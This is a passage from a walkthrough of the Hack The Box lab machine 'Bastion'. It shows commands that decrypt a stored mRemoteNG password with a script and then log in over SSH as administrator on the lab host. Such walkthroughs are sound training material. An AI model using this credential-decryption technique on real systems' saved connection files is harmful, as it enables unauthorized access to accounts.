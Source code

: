 Using `mremoteng_decrypt.py` to crack the hash and got the Password: `thXLHM96BeKL0ER2`.

```
┌──(Hades㉿10.10.14.5)-[0.9:29.5]~/walkthrough/hackthebox/bastion
└─$ python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```

SSH to server with Administrator Credential and own the system.

```
┌──(Hades㉿10.10.14.5)-[0.9:29.5]~/walkthrough/hackthebox/bastion
└─$ ssh administrator@10.10.10.134
administrator@10.10.10.134's password: 
Microsoft Windows [Version 10.0.14393]                                                                                          
(c) 2016 Microsoft Corporation. All rights reserved.                                                                            

administrator@BASTION C:\Users\Administrator>whoami                                                                             
bastion\administrator 
```